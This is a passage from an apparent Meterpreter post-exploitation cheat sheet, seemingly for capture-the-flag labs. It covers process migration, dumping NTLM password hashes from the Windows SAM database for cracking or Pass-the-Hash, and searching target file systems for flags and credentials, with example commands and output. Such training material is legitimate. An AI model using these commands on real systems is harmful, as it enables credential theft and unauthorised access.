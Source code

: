 **Syntax**:

```bash
meterpreter > migrate <PID>
```

**Example**:

```bash
meterpreter > migrate 716
[*] Migrating from 1304 to 716...
[*] Migration completed successfully.
```

**Caution**:  
Migrating from a privileged process (e.g., SYSTEM) to a low-privileged one (e.g., web server process) may cause loss of elevated permissions.

---

### 5. `hashdump` — Extract SAM Database

**Purpose**:  
Retrieves NTLM password hashes from the Security Account Manager (SAM) database on Windows systems. These hashes can be used for offline cracking or Pass-the-Hash attacks.

**Example**:

```bash
meterpreter > hashdump
```

_Output example:_

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

---

### 6. `search` — Search for Files

**Purpose**:  
Searches for files on the target file system. Useful for locating flags, credentials, or other artifacts.

**Syntax**:

```bash
meterpreter > search -f <filename>
```

**Example**:

```bash
meterpreter > search -f flag2.txt
```

_Sample Output_:
